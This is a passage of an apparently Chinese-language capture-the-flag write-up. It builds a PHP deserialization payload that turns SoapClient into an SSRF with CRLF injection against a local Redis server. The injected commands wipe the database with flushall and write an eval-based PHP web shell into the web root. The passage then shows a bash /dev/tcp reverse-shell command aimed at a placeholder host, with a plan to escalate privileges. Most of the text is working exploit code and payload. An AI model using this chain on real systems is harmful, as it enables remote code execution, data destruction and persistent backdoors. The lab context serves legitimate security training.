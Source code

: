 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231830188.png)

猜测 20220311 就是 redis 的密码

于是最终 payload 如下

```php
<?php

class swpu{
    public $wllm;
    public $arsenetang;
    public $l61q4cheng;
    public $love;
}

$a = new swpu();
$a->wllm = 'SoapClient';
$a->arsenetang = null;
$target = 'http://127.0.0.1:6379/';
$poc = "auth 20220311\r\nflushall\r\nconfig set dir /var/www/html/\r\nconfig set dbfilename shell.php\r\nset xzxzxz '<?=eval(\$_REQUEST[1])?>'\r\nsave";

$a->l61q4cheng = array('location'=>$target, 'uri'=>"hello\r\n".$poc."\r\nhello");
echo urlencode(serialize($a));
```

```
O%3A4%3A%22swpu%22%3A4%3A%7Bs%3A4%3A%22wllm%22%3Bs%3A10%3A%22SoapClient%22%3Bs%3A10%3A%22arsenetang%22%3BN%3Bs%3A10%3A%22l61q4cheng%22%3Ba%3A2%3A%7Bs%3A8%3A%22location%22%3Bs%3A22%3A%22http%3A%2F%2F127.0.0.1%3A6379%2F%22%3Bs%3A3%3A%22uri%22%3Bs%3A145%3A%22hello%0D%0Aauth+20220311%0D%0Aflushall%0D%0Aconfig+set+dir+%2Fvar%2Fwww%2Fhtml%2F%0D%0Aconfig+set+dbfilename+shell.php%0D%0Aset+xzxzxz+%27%3C%3F%3Deval%28%24_REQUEST%5B1%5D%29%3F%3E%27%0D%0Asave%0D%0Ahello%22%3B%7Ds%3A4%3A%22love%22%3BN%3B%7D
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231832077.png)

访问 shell.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231833180.png)

蚁剑连接, 发现 flag 打不开

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231833251.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231834534.png)

root 权限, 估计是要提权

先用 bash 反弹 shell, 直接输入会有点问题, 解决方法是先在 bash.sh 里写入反弹命令, 然后通过 `bash bash.sh` 来执行

```bash
bash -i >& /dev/tcp/xxxx/yyyy 0>&1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210231836286.png)
